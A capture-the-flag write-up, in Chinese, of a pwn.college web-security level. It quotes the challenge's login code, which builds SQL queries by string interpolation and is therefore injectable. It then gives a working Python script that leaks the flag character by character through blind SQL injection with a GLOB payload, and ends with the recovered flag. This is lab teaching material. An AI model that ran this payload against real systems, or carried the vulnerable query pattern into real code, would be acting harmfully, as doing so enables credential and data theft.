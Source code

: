 ## level7 Exploit a structured query language injection vulnerability to blindly leak data
先看源代码
```
def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
根据源代码，如果我们输入正确，我们就可以得到`hellp,flag`的提示，也就是说，我们可以一位一位的来实验，进而推出整个flag。这是典型的盲注。

当然，这里有一个问题就是`LIKE`是不区分大小写的，因此我们需要使用`GLOB`来替换

然后我们写个脚本即可
```
import string
import requests

searchspace = string.ascii_letters + string.digits + '{}._-'
solution = ''

while True:
    for char in searchspace:
        data = {
            "username": f'" OR password  GLOB "{solution}{char}*" -- -',
            "password": 'flag'
        }

        response = requests.post("http://challenge.localhost/", data = data)
        if response.text.startswith("Hello"):
            solution += char
            break
    if solution[-1] == "}":
        print(solution)
        break
```
然后得到flag
```
hacker@web-security-level-7:~$ python test.py
pwn.college{IqvCxcvkbplIDWtJG3DclxxKfPE.dNTOzMDL2QjMyMzW}
hacker@web-security-level-7:~$
```